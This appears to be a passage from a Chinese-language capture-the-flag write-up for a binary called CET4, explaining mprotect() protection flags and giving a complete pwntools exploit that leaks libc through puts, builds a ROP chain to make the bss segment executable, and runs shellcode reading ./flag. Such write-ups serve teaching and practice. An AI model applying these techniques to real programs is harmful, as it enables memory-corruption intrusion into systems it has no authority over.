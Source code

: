 mprotect()函数把自start开始的、长度为len的内存区的保护属性修改为prot指定的值。

prot可以取以下几个值，并且可以用“|”将几个属性合起来使用：

1）PROT\_READ：表示内存段内的内容可读；

2）PROT\_WRITE：表示内存段内的内容可写；

3）PROT\_EXEC：表示内存段中的内容可执行；

4）PROT\_NONE：表示内存段中的内容根本没法访问。

##### 思路：

通过mprotect函数修改bss段为可执行，然后先bss段中写入shellcode，最后让程序返回到shellcode地址。

##### Exp：

```python
from pwn import *

p=process('./CET4')
elf=ELF("./CET4")

libc=elf.libc
context.log_level='debug'
context.arch='amd64'

rdi=0x00000000004013d3
bss=0x404000
main=elf.sym['main']

p.sendafter('your name:\n','a'*4+p32(0))
p.sendafter('QAQ:How was your test???','a'*0x48+p64(rdi)+p64(elf.got['puts'])+p64(elf.plt['puts'])+p64(main))

libc_base=u64(p.recvuntil("\x7f")[-6:].ljust(8,"\x00"))-libc.sym['puts']
success('libc_base:'+hex(libc_base))

rsi=0x0000000000027529+libc_base
rdx_r12=0x000000000011c371+libc_base

p.sendafter('your name:\n','a'*4+p32(0))

protect=libc_base+libc.sym['mprotect']

payload=p64(rdi)+p64(0x404000)+p64(rsi)+p64(0x1000)+p64(rdx_r12)+p64(7)+p64(0)+p64(protect)+p64(main)

p.sendafter('QAQ:How was your test???','a'*0x48+payload)

p.sendafter('your name:\n','a'*4+p32(0))

read=libc_base+libc.sym['read']

payload=p64(rdi)+p64(0)+p64(rsi)+p64(0x404500)+p64(rdx_r12)+p64(0x100)+p64(0)+p64(read)+p64(0x404500)

p.sendafter('QAQ:How was your test???','a'*0x48+payload)

code = shellcraft.open("./flag")
code += shellcraft.read(3, 0x404900, 0x50)
code += shellcraft.write(1, 0x404900, 0x50)
shellcode = asm(code)
pause()
p.sendline(shellcode)

```